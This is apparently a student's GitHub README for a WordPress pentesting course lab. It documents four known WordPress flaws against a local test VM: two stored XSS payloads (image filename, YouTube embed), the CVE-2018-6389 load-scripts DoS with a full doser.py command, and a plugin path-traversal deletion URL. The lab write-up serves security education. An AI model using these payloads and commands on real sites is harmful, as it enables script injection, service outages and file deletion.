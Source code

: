 # Week7-WP
This a repository to pentest WordPress for CodePath assignment.

(Optional)Vulnerability Name:WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename

Summary: this is a cross site scripting vulnerability that allows the attacker to create a malicious java script code and 
insert it as the name of an image file, if the image is uploaded the inserted filename(jscode) will be injected in WordPress
       
       Vulnerability types:XSS Cross-Site Scripting
       
       Tested in version:4.2.2
       
       Fixed in version: 4.2.10
       
       GIF Walkthrough:
![xssviamimage](https://user-images.githubusercontent.com/30760006/37509403-7841c352-28b4-11e8-85b1-cc93d7584dbc.gif)
Steps to recreate: rename an image with a js code like (angryTuk"><img src=x onerror=prompt(document.domain)>) as a filename, the code will be injected as soon as the admin/user upload it through page attachement.

Affected source code: media.php.

## Pentesting Report

1. (Required) Vulnerability Name:WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

  - [ ] Summary: allows users with posting priveleges to insert JavaScript malicious code for users/admin browsers to run.
    
    - Vulnerability types:(xss)CrossSite Scripting
    
    - Tested in version:4.0
    
    - Fixed in version: 4.7.3
  
  - [ ] GIF Walkthrough: 
  
  ![youtubexss](https://user-images.githubusercontent.com/30760006/37540430-1d14a07a-2914-11e8-8a3a-371cb2e1c98b.gif)

  
  - [ ] Steps to recreate: a user with posting abitlity, post the JS code ([embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]) in a new post, and anyone who opens the post for view the code will be triggered.
  
  - [ ] Affected source code:embed.php




1. (Required) Vulnerability Name:  WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched) CVE-2018-6389

- [ ] Summary: using the linux command line to launch a denial of service against the WordPress application.
    
    - Vulnerability types:DoS Denial of Service
    
    - Tested in version:4.9.1
   
   - Fixed in version: unpatched
  
  - [ ] GIF Walkthrough:
  ![dos](https://user-images.githubusercontent.com/30760006/37552263-bd059a30-296e-11e8-8f7e-2eae5ab23678.gif)
   [ ] GIF Walkthrough:(continued)
   ![dos2](https://user-images.githubusercontent.com/30760006/37552354-9f885018-2970-11e8-9d2a-ad31fdec97aa.gif)

  
  - [ ] Steps to recreate: Download the python script doser.py point the script to wpdistillery.vm and then use linux command line to launch the attack using the given script.
 
 - [ ] Affected source code:script-loader.php
 
 1. (required) Vulnerability Name:WordPress 3.x-4.x Path Traversal + Directory Listing + File Deletion Vulnerabilities/ Denial of Service
  
  - [ ] Summary: any user with access to plugins can perform a Path Traversal and therefor a DoS if those files are deleted
    
    - Vulnerability types: Path Traversal / DoS
    
    - Tested in version:3.7
    
    - Fixed in version: 4.3
  
  - [ ] GIF Walkthrough: 
  ![path](https://user-images.githubusercontent.com/30760006/37552976-2eba56b8-297c-11e8-838e-6b62a766e0f3.gif)
  
  - [ ] Steps to recreate: go to plugins click on the delete button Akismet plugin in the url (http://wpdistillery.vm/wp-admin/plugins.php?action=delete-selected&checked%5B0%5D=akismet%2Fakismet.php&plugin_status=all&paged=1&s&_wpnonce=d15b1ace35) change the name of the plugin with (../../../../), then click on the link that says click to view entire lise this will take you to higher diractories which can be deleted in the same process.
  
  - [ ] Affected source code:plugins.php
  

## Assets

Deniel of Servise script

python doser.py -g'http://wpdistillery.vm/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with Peek https://github.com/phw/peek.git

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    
